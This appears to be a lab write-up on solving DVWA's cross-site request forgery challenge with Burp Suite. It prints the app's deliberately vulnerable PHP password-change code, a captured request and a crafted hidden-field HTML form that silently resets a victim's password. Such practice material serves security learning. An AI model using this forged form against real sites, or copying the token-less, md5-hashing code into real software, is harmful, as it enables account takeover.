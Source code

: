 # Study of Cross Site Request Forgery (CSRF)

### Burp-Suite
Burp or Burp Suite is a set of tools used for penetration testing of web applications. It is developed by the company named Portswigger, which is also the alias of its founder Dafydd Stuttard. BurpSuite aims to be an all in one set of tools and its capabilities can be enhanced by installing add-ons that are called BApps.
It is the most popular tool among professional web app security researchers and bug bounty hunters. Its ease of use makes it a more suitable choice over free alternatives like OWASP ZAP. 

### CSRF
Cross-site request forgery (also known as CSRF) is a web security vulnerability that allows an attacker to induce users to perform actions that they do not intend to perform. It allows an attacker to partly circumvent the same origin policy, which is designed to prevent different websites from interfering with each other.

In a successful CSRF attack, the attacker causes the victim user to carry out an action unintentionally. For example, this might be to change the email address on their account, to change their password, or to make a funds transfer. Depending on the nature of the action, the attacker might be able to gain full control over the user's account. If the compromised user has a privileged role within the application, then the attacker might be able to take full control of all the application's data and functionality.

### Solving CSRF in DVWA using Burp-Suite
The first thing that was done is checking the source code . You can simply do this in DVWA by clicking view source in the bottom right.
```
<?php

if( isset( $_GET[ 'Change' ] ) ) {
    // Get input
    $pass_new  = $_GET[ 'password_new' ];
    $pass_conf = $_GET[ 'password_conf' ];

    // Do the passwords match?
    if( $pass_new == $pass_conf ) {
        // They do!
        $pass_new = ((isset($GLOBALS["___mysqli_ston"]) && is_object($GLOBALS["___mysqli_ston"])) ? mysqli_real_escape_string($GLOBALS["___mysqli_ston"],  $pass_new ) : ((trigger_error("[MySQLConverterToo] Fix the mysql_escape_string() call! This code does not work.", E_USER_ERROR)) ? "" : ""));
        $pass_new = md5( $pass_new );

        // Update the database
        $insert = "UPDATE `users` SET password = '$pass_new' WHERE user = '" . dvwaCurrentUser() . "';";
        $result = mysqli_query($GLOBALS["___mysqli_ston"],  $insert ) or die( '<pre>' . ((is_object($GLOBALS["___mysqli_ston"])) ? mysqli_error($GLOBALS["___mysqli_ston"]) : (($___mysqli_res = mysqli_connect_error()) ? $___mysqli_res : false)) . '</pre>' );

        // Feedback for the user
        echo "<pre>Password Changed.</pre>";
    }
    else {
        // Issue with passwords matching
        echo "<pre>Passwords did not match.</pre>";
    }

    ((is_null($___mysqli_res = mysqli_close($GLOBALS["___mysqli_ston"]))) ? false : $___mysqli_res);
}

?> 

```
The script takes the user input and checks if the two passwords match, if they do the password is updated, if not the password is not updated. What we can see here is there is no protection against CSRF, such as Anti-CSRF token.

When we try to send a legitimate request from inside DVWA to change the ```New password``` paramter in CSRF challenege
```
GET /DVWA/vulnerabilities/csrf/?password_new=vedant&password_conf=vedant&Change=Change HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:103.0) Gecko/20100101 Firefox/103.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: close
Referer: http://localhost/DVWA/vulnerabilities/csrf/
Cookie: security=low; PHPSESSID=h7ls4j5vqgj9olvdg9vedcij0f
Upgrade-Insecure-Requests: 1
```
What we can see is it is a GET request and you can see the value of the new password has been changed to **vedant**

The next step is to view the html source code of the page. There is a form in there that makes a GET request. It looks just like this.

```
<form action="#" method="GET">
New password:<br />
<input type="password" AUTOCOMPLETE="off" name="password_new"><br />
Confirm new password:<br />
<input type="password" AUTOCOMPLETE="off" name="password_conf"><br />
<br />
<input type="submit" value="Change" name="Change">
```

It is the form that you see when you change the password. it takes the input from the user for a new password and confirm password. The below snippet is taken from the response body and changed according to our needs. Here the new password is **hacked by vedant**

```
<form action=”http://localhost/DVWA-master/vulnerabilities/csrf/?" method=”GET”>
 <h1>Click Me</h1>
 <input type=”hidden” AUTOCOMPLETE=”off” name=”password_new” value=”hacked+by+vedant”>
 <input type=”hidden” AUTOCOMPLETE=”off” name=”password_conf” value=”hacked+by+vedant”>
 <input type=”submit” value=”Change” name=”Change”>
</form>
```
